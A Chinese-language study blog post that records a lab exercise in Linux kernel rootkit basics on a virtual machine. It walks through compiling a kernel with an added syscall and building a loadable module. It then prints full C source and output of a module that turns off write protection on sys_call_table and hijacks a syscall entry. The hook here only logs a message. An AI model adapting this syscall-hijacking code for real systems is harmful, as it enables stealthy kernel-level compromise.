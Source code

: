 ```yaml
---
title: r00tk1t init
date: 2017-01-12 21:33:55
categories:
- study
- misc
tags:
- exploit
- C/C++
- r00tk1t
---
```


参考:
[http://www.freebuf.com/articles/system/54263.html](http://www.freebuf.com/articles/system/54263.html)
[https://chirath02.wordpress.com/tag/asmlinkage/](https://chirath02.wordpress.com/tag/asmlinkage/)
[r00tk1t基础实验](http://mp.weixin.qq.com/s?__biz=MjM5OTk4MDE2MA==&mid=2655113676&idx=3&sn=07e450fb7553f87fa3c9fa5fd186c5b0&chksm=bc864c238bf1c5350ddc594555f4412faa42df025d49e2364884b851d7ea9a1e2d1cfda697d4#rd)
[https://memset.wordpress.com/2010/12/28/syscall-hijacking-simple-rootkit-kernel-2-6-x/](https://memset.wordpress.com/2010/12/28/syscall-hijacking-simple-rootkit-kernel-2-6-x/)
[https://memset.wordpress.com/2011/01/20/syscall-hijacking-dynamically-obtain-syscall-table-address-kernel-2-6-x/](https://memset.wordpress.com/2011/01/20/syscall-hijacking-dynamically-obtain-syscall-table-address-kernel-2-6-x/)
[http://www.mallocfree.com/data/compile-linux-kernel-mallocfree.com.pdf](http://www.mallocfree.com/data/compile-linux-kernel-mallocfree.com.pdf)


# What's this?
关于其概念可以参考[维基百科](https://en.wikipedia.org/wiki/Rootkit)。

# 实验环境
建议不要在物理机下实验~因此我根据[这里](https://chirath02.wordpress.com/tag/asmlinkage/)介绍的情况便去ubuntu的官方网站下载了ubuntu 15.10的i386镜像。然后用VMWare安装ISO，便开始按照里面的指令进行修改和编译。其中增加的系统调用是根据上述的[r00tk1t](http://mp.weixin.qq.com/s?__biz=MjM5OTk4MDE2MA==&mid=2655113676&idx=3&sn=07e450fb7553f87fa3c9fa5fd186c5b0&chksm=bc864c238bf1c5350ddc594555f4412faa42df025d49e2364884b851d7ea9a1e2d1cfda697d4#rd)增加的。修改系统调用是主要的方式之一，因此可以借鉴。

# 编译部分
为了方便可以直接在虚拟机里面切换到root用户，然后键入`# apt-get source linux-image-$(uname -r)`即可下载虚拟机本内核源代码。然后cp到/usr/src目录，再解压出来。然后安装编译所需要的一些依赖工具。
```bash
$ sudo apt-get update
$ sudo apt-get build-dep linux-image-$(uname -r)
$ sudo apt-get install kernel-package  # for make-kpkg clean
$ sudo apt-get install libncurses-dev  # for make menuconfig
```
再之后按照教程部分增加系统调用，照葫芦画瓢。然后就`make menuconfig`配置内核编译选项，教程给的是默认(不知道修改是否编译快一些)。而后便可以开始漫长的编译过程了。
```bash
sudo make
sudo make modules_install˖
sudo make install
sudo mkinitramfs -o /boot/initrd.img-2.6.32.65
sudo update-initramfs -c -k 2.6.32.65
sudo update-grub2 

sudo vim /etc/default/grub     //注释掉下面的部分
#GRUB_HIDDEN_TIMEOUT=0
sudo update-grub2 
```
上述参考mallocfree的教程。可以使得不用完全覆盖掉原有内核选项而使得grub增加新的选项来供用户选择。
按照教程第一部分部分结果如下:至少我们工程的从内核任务链表中实现了相应的功能。
```bash
root@r00t:~# uname -r
4.2.2
root@r00t:~# ps aux | grep sshd
root       655  0.0  0.5  10432  5320 ?        Ss   20:13   0:00 /usr/sbin/sshd -D
root      1144  0.0  0.6  13652  6268 ?        Ss   20:13   0:00 sshd: r00t [priv]   
r00t      1209  0.1  0.2  13652  2948 ?        S    20:13   0:00 sshd: r00t@pts/8    
root      1248  0.0  0.6  13652  6196 ?        Ss   20:14   0:00 sshd: r00t [priv]   
r00t      1285  0.0  0.2  13652  2960 ?        S    20:14   0:00 sshd: r00t@pts/9    
root      1330  0.0  0.2   5972  2308 pts/8    S+   20:19   0:00 grep --color=auto sshd
root@r00t:~# ./testPname 
Enter process to find
sshd
PID = 655
         PID = 1144
                   PID = 1209
                             PID = 1248
                                       PID = 1285
                                                 System call returned 0
root@r00t:~# 


```
# LKM
按照freebuf的教程第一个LKM程序编译如下:
```bash
root@r00t:~/LKM# make
make -C /lib/modules/4.2.2/build SUBDIRS=/root/LKM modules
make[1]: Entering directory '/usr/src/linux-4.2.2'
  CC [M]  /root/LKM/lkm.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/LKM/lkm.mod.o
  LD [M]  /root/LKM/lkm.ko
make[1]: Leaving directory '/usr/src/linux-4.2.2'
root@r00t:~/LKM# insmod lkm.ko 
root@r00t:~/LKM# dmesg | tail -n 1
[ 4019.602327] Arciryas:module loaded
root@r00t:~/LKM# lsmod | grep lkm
lkm                    16384  0
root@r00t:~/LKM# rmmod lkm.ko
root@r00t:~/LKM# dmesg | tail -n 2
[ 4019.602327] Arciryas:module loaded
[ 4117.988381] Arciryas:module removed
root@r00t:~/LKM# 
```

# Kernel Hook
- 静态的方式获得syscall表的地址
```bash
root@r00t:~# !cat
cat /boot/System.map-4.2.2 | grep sys_call_table
c1755140 R sys_call_table
root@r00t:~# 

```
- hook代码如下,稍微大概解释以下，内核模块在初始化的时候会检查sys\_call\_table的内存地址是否可写，一般情况下肯定是不能写的，上面的System.map文件中也看到的，因此程序会检查并通过改写其对应的内存页读写属性来强行修改表借此来hook。在模块卸载的时候又将原来的地址修改回来。
```bash

root@r00t:~/LKM/pname# cat captainhook.c
#include <asm/unistd.h>
#include <asm/cacheflush.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>
#include <asm/pgtable_types.h>
#include <linux/highmem.h>
#include <linux/fs.h>
#include <linux/sched.h>
#include <linux/moduleparam.h>
#include <linux/unistd.h>
#include <asm/cacheflush.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("rutk1t0r");
/*MY sys_call_table address*/
//c1755140
void **system_call_table_addr;
/*my custom syscall that takes process name*/
asmlinkage int (*custom_syscall) (char* name);
/*hook*/
asmlinkage int captain_hook(char* play_here) {
    /*do whatever here (print "HAHAHA", reverse their string, etc)
        But for now we will just print to the dmesg log*/
    printk(KERN_INFO "Pname Syscall:HOOK! HOOK! HOOK! HOOK!...ROOOFFIIOO!");
    return custom_syscall(play_here);
}
/*Make page writeable*/
int make_rw(unsigned long address){
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);
    if(pte->pte &~_PAGE_RW){
        pte->pte |=_PAGE_RW;
    }
    return 0;
}
/* Make the page write protected */
int make_ro(unsigned long address){
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);
    pte->pte = pte->pte &~_PAGE_RW;
    return 0;
}
static int __init entry_point(void){
    printk(KERN_INFO "Captain Hook loaded successfully..\n");
    /*MY sys_call_table address*/
    system_call_table_addr = (void*)0xc1755140;
    /* Replace custom syscall with the correct system call name (write,open,etc) to hook*/
    custom_syscall = system_call_table_addr[__NR_pname];
    /*Disable page protection*/
    make_rw((unsigned long)system_call_table_addr);
    /*Change syscall to our syscall function*/
    system_call_table_addr[__NR_pname] = captain_hook;
    return 0;
}
static int __exit exit_point(void){
        printk(KERN_INFO "Unloaded Captain Hook successfully\n");
    /*Restore original system call */
    system_call_table_addr[__NR_pname] = custom_syscall;
    /*Renable page protection*/
    make_ro((unsigned long)system_call_table_addr);
    return 0;
}
module_init(entry_point);
module_exit(exit_point);
```
- 结果如下:
```bash
root@r00t:~/LKM/pname# insmod captainhook.ko
root@r00t:~/LKM/pname# cd
root@r00t:~# ./testPname 
Enter process to find
sshd
PID = 655
         PID = 1144
                   PID = 1209
                             PID = 1248
                                       PID = 1285
                                                 System call returned 0
root@r00t:~# rmmod captainhook
root@r00t:~# 

## dmesg中输出如下:
[ 1月13 21:49] Captain Hook loaded successfully..
[ 1月13 21:50] Pname Syscall:HOOK! HOOK! HOOK! HOOK!...ROOOFFIIOO!
[ +11.875845] Unloaded Captain Hook successfully

```

# 总结
后续实验应该会参照谷大神的[教程](https://github.com/NoviceLive/research-rootkit)继续学习，关于其防范策略目前还没有什么非常好用的方法，只能靠管理员多注意了。在后渗透测试阶段此隐蔽性非常强，特别是内核级的相对于应用级的更加难以发现，其中有一个应用级的用bash实现的可以[参考学习](https://github.com/cloudsec/brootkit)。
